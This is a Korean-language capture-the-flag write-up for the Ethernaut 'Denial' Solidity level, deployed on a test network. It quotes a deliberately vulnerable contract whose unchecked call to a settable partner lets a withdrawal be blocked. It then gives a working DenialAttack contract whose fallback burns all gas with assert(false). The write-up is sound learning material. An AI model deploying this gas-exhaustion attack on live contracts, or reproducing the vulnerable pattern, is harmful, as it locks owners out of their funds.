

# 👋 1. Denial
__Difficulty 7/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- Owner가 withdraw하지 못하게하면 승리한다.
- Owner 인출불가 상태 만들기

- - -

## 코드 분석
분석은 주석에 있습니다!

```solidity
contract Denial {

    using SafeMath for uint256;
    //  파트너가 되어 자금을 1%씩 인출 할 수 있다.
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    //  Owner의 Address
    address payable public constant owner = address(0xA9E);
    //  마지막으로 withdraw했을때의 시간
    uint timeLastWithdrawn;
    // 파트너별 withdraw한 액수
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    //  누구나 자신 또는 다른 address를 파트너로 설정할 수 있다.
    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    //  withdraw 1% to recipient and 1% to owner
    //  owner와 파트너가 1%씩 인출 할 수 있다.
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        // 작성자의 의도는 call을 사용함으로써 partner가 고의적으로 revert해도 owner가 1%을 받게하기 위함이다.
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        // 마지막으로 withdraw한 시간
        timeLastWithdrawn = now;
        // 파트너가 withdraw한 amount
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    // 모든 입금을 허용한다.
    receive() external payable {}

    // convenience function
    // contract가 가지고 있는 ether의 수를 확인하는 함수
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }

}
```
- - -

## 풀이
### 들어가기 전
이 문제는 call과 transfer의 차이를 잘 알아야 풀 수 있는 문제이다.

#### transfer
수신 스마트 계약에는 fallback 함수가 정의되어 있어야 한다. 그렇지 않으면 전송 호출에 오류가 발생한다. `transfer`은 가스 제한량은 2300으로 `transfer`을 완료하기에 한 양이다.

#### send
`transfer`과 유사한 방식으로 작동하며 가스 제한도 2300이다. 하지만 `transfer`과 다르게 status를 `bool` 값으로 반환한다.

#### call
smart contract에 ETH를 보내는 권장되는 방법이다. call의 빈 인수는 수신 주소의 fallback 함수를 실행시킨다.

```solidity
(bool sent,memory data) = _to.call{value: msg.value}("");
```
`call`을 사용하여 contract에 정의된 다른 기능을 실행시키고 함수를 실행하기 위해 고정된 양의 가스를 보낼 수도 있다. 트랜잭션의 상태가 `bool`값으로 전송되고 return 값이 데이터 변수로 전송된다. 고정된 양의 gas를 보내지 않는다면 사용가능한 모든 gas를 보낸다.

<br/>

우리는 call을 사용해 가져오는 gas 모두 소모해 문제를 해결할 수 있다.
### 풀이
그렇다면 어떻게 모든 gas를 소모할 수 있을까?
gas를 모두 소모할 수 있는 방법이 몇가지 있다.
1. while(true){}
2. assert

* `assert`는 `revert`와 `require`과 다르게 모든 gas를 소모시킨다. 즉 assert가 아닌 다른 것을 사용하여 `revert`하면 gas를 전부 소모시킬 수 업없다.

* 필자는 reentrency를 사용하여 풀려하였지만 reentrency를 사용하였을때 Denial contract에 예기치 못한 ERROR를 만들 수는 있지만 owner에게 ETH가 전송되어 실패하였다. 그래서 가스를 다 소모할 수 있는 다른 방법을 사용하였다.

필자는 2번을 사용하여 문제를 풀었다.

우선 Denial Attack Contract에 fallback을 만들어보자
```solidity
contract DenialAttack {

    Denial denial;
    // 공격할 contract를 Denial contract로 설정
    constructor(address payable _denial) public {
        denial = Denial(_denial);
    }

    // attack을 진행하는 함수
    function attack() public {
        // DenialAttack contract를 파트너로 만들고 withdraw실행
        denial.setWithdrawPartner(address(this));
        denial.withdraw();
    }

    // withdraw이후 ETH가 전송될 때 fallback을 실행시키며 모든 gas소모
    fallback() external payable{
        //방법 1. while(true){}
        //방법 2. assert(false);
        assert(false);
        }

} 
```
<br/>
이 코드를 remix를 통해 Rinkeby network에 deploy한 후 attack()을 실행시켜주면 끝난다.

attack()을 실행시킨 후 transaction이 완료되면 etherscan에서 gas limit을 초과해 에러가 났다고 다음과 같이 나올 것이다.



<br/>


에러를 확인했다면 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
역시 ethernaut를 풀면서 solidity에 대해 다시 복습하고 있는것 같다. `send vs transfer vs call`에 대해서도 다시 찾아보며 공부할 수 있었고, assert, revert와 require의 차이점을 공부할 수 있었던 문제였던 것 같다. 

- - -
## REF
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org


```toc

```